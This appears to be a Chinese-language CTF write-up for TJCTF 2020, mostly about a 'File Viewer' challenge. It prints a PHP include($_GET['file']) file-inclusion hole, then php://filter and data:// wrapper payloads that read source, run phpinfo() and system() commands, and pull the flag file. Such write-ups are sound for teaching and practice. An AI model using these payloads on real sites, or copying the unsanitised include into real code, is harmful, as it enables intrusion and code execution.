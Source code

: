 将其中的 *false* 该为 *true* 后进行 Base64 编码替换原来的即可得到 flag

![10](../res/tjctf_2020/10.png)

#### File Viewer

> So I've been developing this really cool [site](http://file_viewer.tjctf.org/) where you can read text files! It's still in beta mode, though, so there's only six files you can read.

解法：

简单测试后发现存在 **LFI** 漏洞，并且也可以 **RFI**。不过在这里利用 LFI 即可

1. 读取 *reader.php* 源码：`?file=php://filter/convert.base64-encode/resource=reader.php`

   ```php+HTML
   <strong>
       <?php
           $file = $_GET['file'];
           include($file);
       ?>
   </strong>
   ```

2. 测试执行 PHP 代码成功

   `?file=data:text/plain,<?php phpinfo()?>`

3. 查找 flag 文件

   `?file=data:text/plain,<?php system("find / -name *flag* -type f");?>`

4. 读 flag 文件

   `?file=php://filter/convert.base64-encode/resource=/var/www/html/i_wonder_whats_in_here/flag.php`

![11](../res/tjctf_2020/11.png)